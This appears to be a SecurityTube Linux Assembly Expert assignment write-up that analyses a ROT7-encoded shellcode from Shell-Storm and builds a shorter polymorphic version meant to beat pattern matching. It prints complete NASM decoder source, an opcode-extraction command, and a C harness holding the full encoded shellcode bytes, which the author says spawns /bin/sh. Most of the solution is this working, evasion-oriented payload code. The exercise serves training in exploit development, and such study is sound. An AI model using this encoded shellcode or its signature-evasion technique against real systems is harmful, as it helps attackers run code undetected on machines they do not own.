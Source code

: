 # Assignment 6: ROT7 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Download and Execute shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-900.php](http://shell-storm.org/shellcode/files/shellcode-900.php "").

### Shellcode Analysis

To begin, lets grab a copy of that shellcode, compile it, and trace it with GDB:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb1.png "GDB")

As can be appreciated, the shellcode uses the `JMP-CALL-POP` technique to get the payload address on the stack. The payload in this case is is the following string:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb2.png "Encoded Payload")

which is of course the ROT7 encoded version of the shellcode that we want to execute. 

To decode the encoded opcodes, the shellcode loops around `0x1e` (30) times, basically doing `f(x) = 0x100 + (0x7 - x)`, where `x` is the next opcode. The encoded opcode is replaced by the decoded one, which is the result of the aforementioned mathematical expression. When everything is decoded, the control is transfered to the shellcode address previously `JMP-CALL-POP`ed.

If we break after the shellcode has been decoded, we can see that the decoded version is what is commonly known as a "stack-based `execve()` shell" shellcode. 

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb3.png "Decoded Payload")

### Polymorphic Shellcode

Like the original shellcode from Shell-Storm, the morphed version will use the `JMP-CALL-POP` technique to get the address of the encoded shellcode. However, the mathematical manipulation will be different: `f(x) = x - 0x7`, where `x` is the next opcode. The encoded opcode will be replaced by the decoded one, which would be the result of the aforementioned mathematical expression.

### a6-rot7-decode.nasm
```nasm
; SLAE Assignment 6: ROT7 decoder (morphed)
; http://shell-storm.org/shellcode/files/shellcode-900.php
; Original Shellcode Length: 74
; Morphed Shellcode Length:  54

global _start
section .text
_start:
	jmp short stage

decoder:
	pop esi						; shellcode address
	mov al, byte [esi]			; shellcode length
	xor ecx, ecx 				; position

decode:
	mov bl, byte [esi+ecx+1]	; get rot'ed byted
	sub bl, 0x7					; rot it back (-7)
	mov byte [esi+ecx], bl		; store it in shellcode
	inc ecx						; next position
	cmp al, cl					; check if reached the end of shellcode
	jnz short decode 			; 	if not, continue derot'ing
	jmp shellcode				;	else, execute derot'ed shellcode

stage:
	call decoder
	
	; Shellcode Format: 
	; 	byte[0] 	= length of shellcode (max 0xff)
	;	byte[1..] 	= rot'ed shellcode
	shellcode: db 0x18,0x38,0xc7,0x57,0x6f,0x36,0x36,0x7a,0x6f,0x6f,0x36,0x69,0x70,0x75,0x90,0xea,0x38,0xd0,0x90,0xd1,0x71,0x12,0x5f,0xd4,0x87
```

Let's compile, link, and get the opcodes:

```
nasm -f elf32 -o a6-rot7-decode.o a6-rot7-decode.nasm
ld -o a6-rot7-decode a6-rot7-decode.o 
objdump -d ./a6-rot7-decode |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
```

Make an executable skeleton for the opcodes:

### rot7.c
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x16\x5e\x8a\x06\x31\xc9\x8a\x5c\x0e\x01\x80\xeb\x07\x88\x1c\x0e\x41\x38\xc8\x75\xf1\xeb\x05\xe8\xe5\xff\xff\xff\x18\x38\xc7\x57\x6f\x36\x36\x7a\x6f\x6f\x36\x69\x70\x75\x90\xea\x38\xd0\x90\xd1\x71\x12\x5f\xd4\x87";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

And finally compile, execute, and check:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/example.png "Example")

Looks like everything works as expected: a `/bin/sh` is spawned.

As can be observed, the reported shellcode length is 54, which is 20 bytes shorter than the original 74. 

